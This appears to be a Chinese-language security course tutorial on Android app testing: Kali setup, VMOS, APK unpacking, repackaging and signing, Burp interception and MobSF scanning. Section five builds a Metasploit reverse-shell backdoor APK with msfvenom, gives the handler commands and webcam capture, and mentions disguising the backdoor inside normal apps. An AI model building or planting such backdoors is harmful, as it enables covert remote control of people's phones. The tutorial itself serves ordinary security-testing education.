

# 安卓应用测试

## 一、安卓生态简介

Android是一种基于Linux的自由及开放源代码的操作系统,主要使用于移动设备, 如智能手机和平板电脑,由Google公司和开放手机联盟领导及开发。

安卓的安全机制大概措施如下：

- 代码安全机制——代码混淆proguard混淆关键代码、替换命名让破坏者阅读困难，同时也可以压缩代码、优化编译后的Java字节码

- 应用接入权限控制——AndroidMainifest文件权限声明、权限检查机制任何应用程序App在使用Android受限制资源的时候，都需要显示向系统声明所需要的权限，只有当一个应用App具有相应的权限，才能在申请受限资源的时候，通过权限机制的检查并使用系统的Binder对象完成对系统服务的调用。
- 应用签名机制——数字证书Android中所有的App都会有一个数字证书，这就是App的签名，数字证书用户保护App的作者对其App的新人关系，只有拥有相同数字签名的App，才会在升级时被认为是同一App。而且Android系统不会安装没有签名的App。
- Linux内核安全机制——Uid、访问权限控制Android本质是基于Linux内核开发的，所以Android同样继承了Linux的安全特性，比如文件访问机制，Linux文件系统的权限控制是有user、group、other与读(r)、写（w）、执行（x）的不同组合来实现的。同样，Android也实现了这套机制，通常清空下，只有System、root用户才有权限访问到系统文件，而一般用户无法访问。
- Android虚拟机沙箱机制——沙箱隔离通常情况下，不同的应用之间不能互相访问，每个App都有与之对应的Uid，每个App也运行在单独的虚拟机中，与其他应用完全隔离。在实现安全机制的基础上，也让应用者之前能够互不影响，即使一个应用崩溃，也不会导致其他应用异常。

## 二、安卓生态所面临的安全问题

可以把安卓生态想象成上古时期的XP时代，我们担心的有哪些问题？

- 电脑中病毒

- 网银、网游戏信息被盗 

- 通过网络入侵服务器

而替换到现在的安卓生态，如果我们是安卓应用的开发者，或许可以问自己几个问题

- 是否所有的用户都是可信的？

- 是否所有的用户都拥有良好的安全意识？

  

## 三、安卓手机投屏至kali

### 3.1 安装 scrcpy

如果apt源在收录的情况下可直接通过如下指令安装：

```
apt-get install scrcpy
```

在截稿之前最新版是1.24，kali源里并未包含，可下载debain源里面的deb包.链接如下：

```
https://mirrors.aliyun.com/kali/pool/main/
需下载的数据包清单如下：
android-sdk-platform-tools-common_28.0.2+7_all.deb
scrcpy_1.24-1_amd64.deb
scrcpy-server_1.24-1_all.deb
```

待下载完成后，安装相关deb包后，还需要修复依赖关系后再安装adb

```
dpkg -i *.deb
apt-get install -f
apt-get install adb
```


### 3.2 调整手机设置

默认情况下安卓手机需要打开开发者模式，并开启usb调试

一般主流手机打开方式：

     进入设置-->我的设备（我的手机/系统信息等）-->系统版本（xxos-xx.xx.xx 非Android版本）
     多次点击"系统版本"多次后会进入“开发者模式”
     随后进入设置-->更多设置（辅助功能）-->开发者选项-->USB调试开启 
     具体对应系统的开发者模式可参考百度：手机型号/品牌/os名称+开启开发者模式


### 3.3 手机投屏至电脑

在电脑终端中直接输入指令即可

```
scrcpy
```


并且可以通过鼠标操控平板。


## 四、打造安卓测试环境

### 4.1 测试方案的介绍

在过往的一段时间里，我们测试过不同种类的方案：

```
1.基于windows的各种安卓模拟器
2.能够兼容kali的Genymotion
3.个人的真实手机
```

但是总会遇到各种不同的问题，这诸如性能的问题，亦或者X86转换ARM架构的缘故，导致应用兼容性的问题。

哪至于遇到一些APP不支持模拟器的情况也是头大的很。

所谓最为完美的方案反而是用自己的手机，但又担心没测试出来问题，反而通讯录被偷了......

为此在当前版本的课程中，我们所推荐的解决方案为：vmos


官网地址：http://www.vmos.cn/product_center_vmospro.htm

安装好应用后，注册用户并下载安卓7.1极客版。

在启动虚拟机后，需要开启root及Xposed


### 4.2 物理机与虚拟机的文件交互

在虚拟机中，可通过文件传输的功能进行数据交互，这玩意也没啥难的，自己点点点即可.

唯一的小技巧就是在物理手机的存储内，建个名为AAA的文件夹，这样容易找目录:)


### 4.3 调试vmos

推荐安装在vmos的软件清单如下：

```
MT管理器--通过vmos的常用工具中安装即可。
BlackDEX64、BlackDEX32 --开源的脱壳工具
justtrustme--xposed模块
```


 

## 五、安卓后门

通过如下格式语句可在kali中生成安卓的后门：

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=IP LPORT=4444 R > shell.apk
```

随后将生成的APK木马拷贝至手机中，而后通过vmos的文件交换功能，进行安装。

在kali中执行如下的指令后，启动安卓的木马后，即可远程控制目标手机。

```
msfconsole
use exploit/multi/handler 
set payload android/meterpreter/reverse_tcp
set lhost kaliIP
exploit
```


```
ifconfig
app_list
check_root
webcam_snap
```

当然如果站在真实攻击的角度上，可以将后门做好伪装亦或者插入正常应用中即可。

实验你会了，可有个道理你还得明白：

```
爱情的基石从来不该是财物，
而应该是信任与共同的价值观。
```


## 六、Apk的结构及解包

### 6.1 APK结构

Android应用程序由松散耦合的组件组成，并使用应用程序Manifest绑定到一起，应用程序Manifest描述了每一个组件和它们之间的交互方式，还用于制定应用程序元数据、其硬件和平台要求、外部库以及必需的权限。

以下几个组件提供了应用程序的基本机构模块：

```
- Activity：应用程序的表示层，Activity相当于桌面的Form
- Service：应用程序中不可见的工作者
- Content Provider：一个可共享的持久数据存储器
- Intent：一个强大的应用程序之间的消息传递框架
- Broadcast Receiver：Intent侦听器
- Widget：通常添加到设备主屏幕的可视化应用程序组件
- Notification：Notification允许向用户发送信号，但却不会过分吸引他们的注意力或者打断他们当前Activity
```

当我们在KALI中双击APK的数据包时，可看到的内容大致如下：


AndroidManifest.xml  

```
此文件是apk中最重要的文件之一。它是apk的全局配置文件，提供了android系统所需要的关于该应用的必要信息
```

META-INF

```
	MANIFEST.MF（摘要文件）：程序遍历APK包中的所有文件，对非文件夹非签名文件的文件，逐个用SHA1生成摘要信息，再用Base64进行编码。如果APK包的文件被修改，在APK安装校验时，被修改的文件与MANIFEST.MF的校验信息不同，程序将无法正常安装。
	CERT.SF（对摘要文件的签名文件）：对于生成的MANIFEST.MF文件利用SHA1-RSA算法对开发者的私钥进行签名。在安装时只有公共密钥才能对其解密。解密之后将其与未加密的摘要信息进行比对，如果相符则文件没有被修改。
	INDEX.LIST APK索引文件目录
	CERT.RSA  保存公钥、加密算法等信息。
```

classes.dex

```
简单说就是优化后的android版.exe。每个apk安装包里都有。相对于PC上的java虚拟机能运行.class；
android上的Davlik虚拟机能运行.dex。
```

Resources.arsc

```
App的资源索引表
```


### 6.2 apktool的使用

ApkTool 的最重要的两个作用是 解包 和 打包 ;

解包 : 拿到 APK 文件 , 如果按照 zip 格式解压出来 , xml 文件都是乱码 ; APK 文件打包时 , 会将 xml 文件进行压缩转为二进制文件 , 以减小体积 ; 解包时 , 必须使用 ApkTool 解包工具 , 将二进制数据格式的 xml 文件转为 文本 xml 文件 , 才能获取刻度的 xml 文件 ;
打包 : 将使用 ApkTool 工具解包后的零散文件 , 再次打包成 APK 文件 ,

如果 APK 文件进行了加固处理 , 那么解包无法获取正确的 dex / so / 资源文件 , 无法进行重打包 ;

重打包操作 : 使用 ApkTool 工具 , 将 APK 解包 , 修改或注入 so 文件 , 然后再进行重打包 ;


安装apktool：

```
apt install apktool
```

也可以使用官网最新包来安装

```
wget https://raw.githubusercontent.com/iBotPeaches/Apktool/master/scripts/linux/apktool -O /usr/local/bin/apktool
wget https://bitbucket.org/iBotPeaches/apktool/downloads/apktool_2.6.1.jar -O /usr/local/bin/apktool.jar
chmod +x /usr/local/bin/apktool*
```

使用apktool反编译apk文件的命令为：

```
apktool d xxx.apk -o xxx
```


打包成APK文件

```
apktool b xxx -o xxxx.apk
```


由于默认安卓系统的应用需要经过签名才能安装，为此我们需要使用keystore与jarsigner
第一步:生成keystore

```
keytool -genkey -alias farmsec.keystore -keyalg RSA -validity 2000 -keystore farmsec.keystore
```

使用jarsigner给apk签名

```
jarsigner -verbose -keystore xxx.keystore -signedjar 签名后xxx.apk 未签名xxx.apk xxx.keystore
例：
jarsigner -verbose -keystore farmsec.keystore -signedjar test_s.apk test.apk farmsec.keystore

jarsigner显示无此命令可以在JAVA_HOME中软链接此命令到/usr/bin或者下载kali默认的openjdk-11-jdk-headless
apt install openjdk-11-jdk-headless
```

生成的文件即可以在安卓上进行安装使用（因为未设置版本共存，所以需要先卸载上一个shell.apk才可以安装哦）。


## 七、安卓应用脱壳及反编译

### 7.1 安卓加固的简单介绍

对于加了壳的apk，包里面会有一些符合特定特征的文件，比较简单的方式就是通过检测apk是否符合这些特征，当然随着各大加固平台不断的迭代，其特征也可能会不断的迭代。

我们只需要知道大概原理就可以了，常见的特征判断是判断lib下是否存在特定的so文件，比如看雪上有人总结过的：

```
### 娜迦
libchaosvmp.so , libddog.solibfdog.so
### 爱加密
libexec.so, libexecmain.so，ijiami.dat
### 梆梆
libsecexe.so, libsecmain.so,libSecShell.so
### 梆梆企业版
libDexHelper.so , libDexHelper-x86.so
### 360
libprotectClass.so, libjiagu.so
libjiagu.so, libjiagu_art.so
libjiagu.so, libjiagu_x86.so
### 通付盾
libegis.so，libNSaferOnly.so
### 网秦
libnqshield.so
### 百度
libbaiduprotect.so
### 阿里聚安全
aliprotect.dat，libsgmain.so，libsgsecuritybody.so
### 腾讯
libtup.so, libexec.so，libshell.so
mix.dex
lib/armeabi/mix.dex ,lib/armeabi/mixz.dex
### 腾讯御安全
libtosprotection.armeabi.so，
libtosprotection.armeabi-v7a.so，
libtosprotection.x86.so
### 网易易盾
libnesec.so
### APKProtect
libAPKProtect.so
### 几维安全
libkwscmm.so, libkwscr.so, libkwslinker.so
### 顶像科技
libx3g.so
```

PKID有两个版本，最开始是只有Windows版本的，后来有位大佬用Mac，觉得每次用的时候都要开虚拟机太麻烦了于是写了个Java版的.

```
Java版的看雪论坛下载地址：https://bbs.pediy.com/thread-225120.htm

java -jar PKID.jar
拖入需要查壳的apk包进行查壳
```


使用MT管理器同样可完成加固查看。


### 7.2 简单的脱壳反编译

#### 7.2.1 使用BlackDex进行简单脱壳

BlackDex针对一（落地加载）、二（内存加载）、三（指令抽取）代壳，摆脱对以往脱壳环境的困扰，几乎支持5.0以上的任何系统。并且拥有 **快速**、**方便**、**成功率高** 的优点。一般只需要几秒钟即可完成对已安装包括未安装应用脱壳。**未安装应用**脱壳时间主要花费在复制文件IO消耗上，由应用大小决定速度。已安装应用一般在数秒内即可完成脱壳。

把BlackDex64及32和超级课程表导入并安装带虚拟机

安装APP后启动blackdex32，脱壳应用。


随后将文件导出至真实机后，拷贝至kali。文件导出的路径可能位于(内部存储设备/Android/data/com.vmos.pro/sdcard/VMOSfiletransferstation)


```
hook_xxxx.dex hook系统api脱壳的dex，深度脱壳不修复
cookie_xxxx.dex 利用dexFile cookie脱壳的dex，深度脱壳时会修复此dex
```

使用d2j-dex2jar工具将dex文件转为jar

```
d2j-dex2jar *.dex

没有d2j-dex2jar这个命令的同学可以执行以下命令安装
apt install dex2jar
```


待转换完成后，目录中会出现多个jar文件。


使用jadx-gui打开即可看到APP源码（应用程序--逆向工程--jadx-gui）

无此命令可以执行``apt install jadx``安装


使用jadx-gui的导航-->搜索文本功能，可快速查找所需要的关键字。

SecretKeySpec、AES/CBC/PKCS5Padding、super.cn


#### 7.2.2 使用反射大师进行简单脱壳

安装APP后打开VMOS的常用工具，搜索安装反射大师


打开反射大师，点击弹出的模块管理，在xposed中勾选此模块


首次安装模块需要重启虚拟机，重启后即可正常使用

单击需要脱壳的app，点击‘选择这个软件’，再弹出的提示中点击打开


开启软件后点击中间的五芒星，选择‘当前ACTIVITY’,点击写出DEX，勾选修复magic，单击确认


默认的写入路径在主目录下


把classes.dex导出到手机再复制到kali，同样按照d2j-dex2jar、jadx-gui逻辑进行分析。


#### 7.2.3 其他的提示

备注1：有关硬编码的安全风险可参阅https://zhuanlan.zhihu.com/p/24279535

备注2：没有加固的APP，直接当成压缩包解压，针对dex文件直接进行处理即可。

备注3：通过grep的正则表达式的方案同样也可以完成搜索。

```
grep -rnE "([0-9]{1,3}[\.]){3}[0-9]{1,3}" .
```


## 八、webapp的测试

导入证书




```
进入常用工具搜索安装 trustme
xposed中启用trustme
在框架中选择软重启加载模块
burpsuite启动并修改代理地址
手机代理指向burpsuite
```

更多思考：

```
逆向APP后，可查找硬编码进行解密，也可以查找更多敏感的内容。
大批量逆向APP后，修改一些内容后，重新打包APK，可以进行长期测试使用。
破解证书强校验是一个很重要的事情。
```


## 九、mobsf

MobSF是Mobile Security Framework的缩写，是一个移动端应用安全问题检出的框架和工具，它适用于Android/iOS/Windows，能够执行动态和静态的恶意软件的分析和检测。支持Android和iOS以及Windows移动应用，无论是二进制方式还是压缩的源代码都可以进行检测。MobSF将数据保持在本地环境之中，所以可以不必担心应用和相关的数据被送至云端。

```
docker pull opensecurity/mobile-security-framework-mobsf
docker run -it -p 8000:8000 opensecurity/mobile-security-framework-mobsf:latest
```


http://127.0.0.1:8000/

上传应用，稍等一下就可查看检测结果


## 十、安卓应用合规

可参阅<移动金融客户端应用软件安全管理规范>


